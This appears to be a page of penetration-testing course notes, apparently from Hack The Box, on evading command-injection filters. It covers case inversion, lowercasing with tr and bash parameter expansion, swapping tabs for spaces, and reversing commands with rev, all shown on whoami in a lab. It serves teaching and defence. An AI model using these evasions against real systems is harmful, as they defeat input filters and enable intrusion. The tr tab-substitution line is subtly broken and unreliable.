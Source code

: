 One command obfuscation technique we can use is case manipulation, like inverting the character cases of a command (e.g., `WHOAMI`) or alternating between cases (e.g., `WhOaMi`). This usually works because a command blacklist may not check for different case variations of a single word, as Linux systems are case-sensitive.

### Windows Case Insensitivity

If we are dealing with a Windows server, we can change the casing of the characters of the command and send it. In Windows, commands for PowerShell and CMD are case-insensitive, meaning they will execute the command regardless of what case it is written in:

```powershell
PS C:\htb> WhOaMi

21y4d
```

### Linux Case Sensitivity

For Linux and Bash shells, which are case-sensitive, we can use a command to convert the case to lowercase. Example:

```bash
21y4d@htb[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

21y4d
```

If spaces are filtered, replace them with tabs (`%09`) to bypass the filter.

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi" | tr -s ' ' '%09')
```

Another method:

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

---

## Reversed Commands

Reversing commands and executing them in real-time can bypass filters. Example:

### Linux

```bash
DJMC@htb[/htb]$ echo 'whoami' | rev
imaohw

21y4d@htb[/htb]$ $(rev<<<'imaohw')

21y4d
```
